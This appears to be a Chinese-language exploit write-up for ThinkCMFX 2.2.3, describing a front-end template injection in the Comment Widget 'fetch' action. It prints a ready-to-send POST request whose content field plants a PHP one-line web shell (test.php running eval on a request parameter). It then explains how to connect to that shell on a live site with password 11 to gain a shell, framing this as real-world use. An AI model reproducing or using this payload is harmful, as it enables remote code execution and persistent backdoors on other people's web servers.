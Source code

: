 #### 0x01.2 漏洞原理

文件：ThinkCMFX_2.2.3\application\Portal\Controller\ArticleController.class.php
方法：public function edit_post(

![image](../img/c0a291542437f13b2029fc93a5ff0578.png)

这里不多讲，因为没得意义。详情请看先知的历史tp漏洞，谢谢：)

#### 0x02 前台模版注入漏洞-可getshell两处

##### 0x02.1 Comment类模版引擎注入演示

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```

发送之后页面http状态会为200，这样就表示成功了
简单讲解一下：content 我输入了php代码所以他会在本地跟路径创建一个一句话木马test.php
所以实战过程中。

连接马子：http://xxxxx.com/test.php 密码:11
即可getshell
